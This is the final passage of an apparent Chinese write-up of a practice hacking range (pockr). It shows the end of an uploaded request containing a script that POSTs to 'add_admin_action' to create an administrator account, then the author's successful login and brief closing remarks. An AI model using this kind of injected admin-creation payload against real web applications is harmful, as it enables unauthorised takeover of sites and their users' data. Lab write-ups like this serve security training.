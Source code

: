```http
  url:'add_admin_action',
  data:{ 
       'userName' : 'testest', 
       'userPwd' : 'testest123', 
       'realName' : 'testest', 
       'userMobile' : '13344445555'
  }, 
  type:'post', 
  cache:false, 
  dataType:'json', 
  success:function(data) { 
  }
});
</script>
--dee39b8c-116a-4b58-86fa-8b29c77b14be--
```

![pockr1](/img/in-post/pockr-wirteup/图片 31.png)

> 成功，登录！！！！

![pockr1](/img/in-post/pockr-wirteup/图片 32.png)

## 结语

蛮有意思的靶场！！学到了不少东西